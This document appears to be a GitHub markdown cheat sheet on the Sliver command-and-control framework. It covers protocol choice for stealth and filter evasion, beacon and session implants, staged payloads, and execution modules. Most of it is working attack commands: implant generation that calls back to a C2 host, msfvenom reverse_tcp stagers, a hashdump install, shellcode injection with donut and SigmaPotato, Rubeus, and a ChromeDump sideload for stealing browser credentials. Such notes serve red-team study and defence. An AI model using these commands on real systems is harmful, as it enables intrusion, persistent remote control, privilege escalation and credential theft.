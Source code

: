 # Content
- [Sliver Communication Protocols](#sliver-communication-protocols)
- [Implants](#implants)
- [Armory](#armory)
- 


# Sliver Communication Protocols
![Architecture](https://github.com/user-attachments/assets/5d6aa18d-6484-42a1-b833-96e29ab9ca9b)
## Choosing the Right Protocol

The selection of a protocol depends on the specific network environment and the attacker’s objectives:

- **Stealth**: DNS and HTTPS are preferred in highly monitored networks.
- **High Bandwidth**: mTLS and HTTPS are better for large data transfers.
- **Internal Pivoting**: Named pipes and TCP pivots are essential for moving laterally within an environment.
- **Bypassing Restrictions**: DNS can bypass most outbound traffic filters.


# Implants 
- Implants are the software (binaries/executables), They offer network connections on different sets of protocols and a means of communication between a C2 server and the target workstation/server.
- Implants can operate in beacon and session modes.
  - **Sessions:** use long-polling connections, which means they use a single TCP connection which is constantly open.
  - **Beacons:** on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.
```bash
sliver > generate beacon --http <C2 IP>:8088 -N http_beacon --os linux --skip-symbols
sliver > generate --http <C2 IP>:8088 -N http_session --os linux --skip-symbols
sliver > http --lport 8088
```
## Jitter
- Jitter is a randomization mechanism that alters the interval at which beacon signals are sent to the C2 server.
- Example: If a beacon is set to signal every 60 seconds with a 20% jitter, the actual interval will vary randomly between 48 and 72 seconds.
## Stagers
- **Stegeless:**  one single binary that connects back to u
- **Staged:** Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

```bash
# create profile and set a beacon
sliver > profiles new beacon --http <C2 IP>:8088 --format shellcode profile_name # creare beacon
sliver > profiles new --http 10.10.17.67:8088 --format shellcode academy # create session 
sliver > http -L <C2 IP> -l 8088
# just another example:  sliver > profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name 


# use sliver shellcode in msvnom stagger
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name
sliver > generate stager --lhost <C2 IP> --lport 4443 --format csharp --save staged.txt
# change the shellcode in sliver.aspx with the one generated above
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx

# use msvenom stagger directly 
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name --prepend-size
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx
```

# Armory
The armory is the Sliver Alias and Extension package manager , it allows you to automatically install various 3rd party tools such as BOFs and .NET tooling.

```bash
armory install hashdump
```

## Alias and Extension
- for more info check [doc](https://sliver.sh/docs?name=Aliases%20and%20Extensions)
### Alias
- Alias is essentially just a thin wrapper around the existing sideload and execute-assembly commands, and aliases cannot have dependencies.
### Extension
- An extension is a shared library that is reflectively loaded into the Sliver implant process, and is passed several callbacks to return data to the implant.
- it's more integrated with Sliver
- extensions' arguments will show up in --help and may be required.

# Execute
- execute
- execute-assembly
- execute-shellcode
- sideload
- spawndll

### execute
execute commands on the target system.
```bash
execute 'C:\Windows\system32\whoami.exe' 
```
### execute-assembly
- run an arbitrary .NET assembly from local system on a remote system via a Sliver implant.
- The implant will start a sacrificial process (`notepad.exe` by default, you can change this by using the --process) that will host a reflective DLL used to load the .NET CLR.
- The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.
```bash
execute-assembly /opt/binaries/Rubeus.exe createnetonly /program:C:\\windows\\system32\\notepad.exe
```
### execute-shellcode
execute raw shellcode in memory on a target system.
```bash
# make shellcode that make SigmaPotato run http-beacon (which on the target system) and save it in  sigmapotato.bin
donut -i ./SigmaPotato.exe -a 2 -b 2 -p 'c:\temp\http-beacon.exe' -o ./sigmapotato.bin
# create a process that have a usertoken and get the pid
rubeus createnetonly /program:C:\\windows\\system32\\notepad.exe
# execute the shellcode in the target process
execute-shellcode -p 2036 ./sigmapotato.bin 
```
### sideload
- The sideload command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk. 
- On Windows, the DLL will be converted to a shellcode via [sRDI](https://github.com/monoxgas/sRDI) and injected into a sacrificial process.
```bash
sideload -e ChromeDump /tmp/chrome-dump.dll
```
### spawndll
the spawndll command allows you to inject reflective DLLs and run them in a remote process.
```bash
spawndll /tmp/Outflank-PsC.dll blah
```
